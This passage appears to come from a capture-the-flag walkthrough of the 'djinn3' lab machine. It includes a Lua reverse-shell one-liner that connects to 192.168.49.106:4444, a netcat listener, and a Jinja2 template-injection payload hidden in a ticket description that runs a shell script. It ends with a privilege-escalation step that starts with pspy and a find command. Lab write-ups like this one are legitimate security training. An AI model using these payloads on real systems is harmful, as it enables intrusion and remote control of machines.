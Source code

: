 ```
        lua -e "require('socket');require('os');t=socket.tcp();t:connect('192.168.49.106','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"
        exit;
fi
                                                                                                                                                                                                                                            
```

Setup Listener

```
nc -nvlp 4444
```
Executing hp.sh

```
Title: Execute
Download: Description: {{config.__class__.__init__.__globals__['os'].popen('bash /tmp/hp.sh').read()}}
```
Browsing to the execute ticket will execute hp.sh allowing us to get a reverse shell.

## Priv Esc PsPy + Decompiling pyc
---

PsPy reveals a hidden cronjob being ran as the user saint.

<img src="/assets/resources/djinn3/pspy_saint.png" />

Finding Files that belong to saint

```
find / -user saint -perm -u=wrx 2>/dev/null
```
<img src="/assets/resources/djinn3/saint_files.png" />
